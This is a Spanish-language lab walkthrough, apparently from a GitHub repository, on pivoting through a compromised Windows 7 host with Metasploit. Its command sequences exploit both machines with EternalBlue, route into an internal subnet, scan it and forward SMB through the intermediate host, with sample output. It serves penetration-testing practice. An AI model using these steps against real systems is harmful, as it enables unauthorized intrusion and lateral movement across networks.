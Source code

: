 # Pivoting en Windows usando Mestasploit

![Laboratorio de pivoting en Windows](./Pivoting%20Windows.png)

En primer lugar, debemos ganar acceso a la máquina Windows 7 intermedia para luego hacer el pivoting al la máquina objetivo final que es otro Windows 7.

#### Reconocimiento

```bash
$ arp-scan -I eth0 --localnet --ignoredups
```

Identificamos la ip objetivo: `192.168.1.14`

En este punto, realizaríamos el escaneo con _nmap_ para encontrar los distintos puertos abiertos, vulnerabilidades, etc. En este caso, como es un laboratorio para practicar pivoting y conociendo que es un Windows 7 lo que esta corriendo en la máquina objetivo, utilizaremos el exploit _Eternal Blue_.

```bash
$ msfbd run
msf6> workspace -a PivotingWindows
msf6> use exploit/windows/smb/ms17_010_eternalblue
msf6> set RHOSTS 192.168.1.14
msf6> run
```

Enviamos a segundo plano la sesión de meterpreter y luego ejecutamos el modulo `post/multi/manage/autoroute` para realizar el enrutamiento del la red 20.20.20.0/24.

```bash
meterpreter > ifconfig -> listas las interfaces de red
meterpreter > CTRL + Z
msf6> use post/multi/manage/autoroute
msf6> set SESSION 1
msf6> run
```

Luego, ejecutamos el modulo `post/windows/gather/arp_scanner` para encontrar hosts activos dentro de la nueva red 20.20.20.0/24.

```bash
msf6> use post/windows/gather/arp_scanner
msf6> set RHOSTS 20.20.20.0/24
msf6> set SESSION 1
msf6> run
[*] Running module against WINDOWS
[*] ARP Scanning 20.20.20.0/24
[+]     IP: 20.20.20.1 MAC 52:54:00:12:35:00 (Realtek (UpTech? also reported))
[+]     IP: 20.20.20.4 MAC 08:00:27:af:83:db (CADMUS COMPUTER SYSTEMS)
[+]     IP: 20.20.20.3 MAC 08:00:27:5d:98:b2 (CADMUS COMPUTER SYSTEMS)
[+]     IP: 20.20.20.2 MAC 52:54:00:12:35:00 (Realtek (UpTech? also reported))
[+]     IP: 20.20.20.5 MAC 08:00:27:53:78:f2 (CADMUS COMPUTER SYSTEMS)
[+]     IP: 20.20.20.255 MAC 08:00:27:af:83:db (CADMUS COMPUTER SYSTEMS)
[*] Post module execution completed
```

Una vez identificado la máquina victima `20.20.20.5`, podemos utilizar el modulo `auxiliary/scanner/portscan/tcp` para descubrir los puertos abiertos en la máquina.

```bash
msf6> use auxiliary/scanner/portscan/tcp
msf6> set PORTS 1-1000
msf6> set RHOSTS 20.20.20.5
msf6> run
[+] 20.20.20.5: - 20.20.20.5:445 - TCP OPEN
```

Ahora que conocemos los puertos abiertos, podemos aplicar el port forwarding. Para lo cual, usamos el modulo `post/windows/manage/portproxy`

```bash
msf6> use post/windows/manage/portproxy
msf6> set CONNECT_ADDRESS 20.20.20.5
msf6> set CONNECT_PORT 445
msf6> set LOCAL_ADDRESS 0.0.0.0
msf6> set LOCAL_PORT 4545
msf6> set SESSION 1
msf6> run
```

#### Dirección 0.0.0.0

> **En el contexto de configuración de red (En un servidor o dispositivo):**
>
> Puede indicar que el dispositivo está configurado para escuchar en todas las interfaces de red disponibles. En otras palabras, significa "cualquier dirección" o "todas las interfaces". Por ejemplo, si un servidor está configurado para escuchar en la dirección IP 0.0.0.0, estará esperando conexiones en todas sus interfaces de red.

Con el modulo anterior, logramos redireccionar el puerto **445 (SMB)** de la máquina objetivo final (20.20.20.5) a el puerto **4545** de la máquina victima intermedia (20.20.20.4) para luego pode hacer el reconocimiento de versión y servicio.

```bash
msf6> db_nmap -sCV -p4545 192.168.1.14 -vvv
```

> Para ejecutar el comando anterior, debemos indicar la ip de la máquina intermedia en la interfaz a la cual tenemos acceso desde nuestra máquina atacante.

Por ultimo, para realizar el ataque a la máquina victima final ejecutamos otra instancia de metasploit y lanzamos nuevamente el exploit de **Eternal Blue**.

```bash
$ msfdb run
msf6> use exploit/windows/smb/ms17_010_eternalblue
msf6> set RHOSTS 192.168.1.14
msf6> set RPORT 4545 -> este es el puerto 445 de la máquina 20.20.20.5
msf6> set LPORT 5555
msf6> run
```
